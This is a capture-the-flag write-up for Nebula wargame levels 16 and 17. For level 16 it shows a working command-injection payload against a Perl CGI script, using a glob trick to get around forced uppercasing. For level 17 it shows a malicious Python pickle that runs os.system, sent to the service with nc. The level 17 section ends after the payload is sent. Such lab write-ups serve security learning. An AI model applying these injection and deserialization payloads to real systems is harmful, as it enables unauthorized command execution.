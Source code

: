 ## level16

[task description](https://exploit-exercises.lains.space/nebula/level16/)
Inspecting code we can see command injection at the line:
```perl
 @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```
Script make uppercase and remove all symbols after a space in the **username** variable. So we create shell script:
```sh
sh-4.2$ cat /tmp/level16 
#!/bin/sh
getflag > /tmp/level16_res

```
Consider that perl script make  **username**  in upper case:
```sh
sh-4.2$ cp /tmp/level16  /tmp/LEVEL
sh-4.2$ chmod +x /tmp/LEVEL
```
And we see that /TMP directory also doesn't exist.  Try to use pathname expansion **/\*/LEVEL**
So command will be:
```sh
;`/*/LEVEL`;
```
Decode it for url and open in browser:
```sh
http://192.168.56.102:1616/index.cgi?username=%3B%60%2F%2A%2FLEVEL%60%3B

```

```sh
level16@nebula:/home/flag16$ cat /tmp/level16_res 
You have successfully executed getflag on a target account
```

## level17
[task description](https://exploit-exercises.lains.space/nebula/level17/)
Inspecting source code we see usage of pickle package and imported os package.
```python
def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

```
According to pickle source code insecure implementation:
```python
def loads(pickled):
    return eval(pickled)
```
Create object and redefine __reduce__ method with payload:
```python
import os
class Test(object):
	def __reduce__(self):
		return (os.system, (("getflag > /tmp/level17_res"), ))

pickle.dump(Test(), open('/tmp/pickled', 'wb'))
```
```sh
sh-4.2$ python /tmp/level17.py 
sh-4.2$ nc localhost 10007 < /tmp/pickled 
```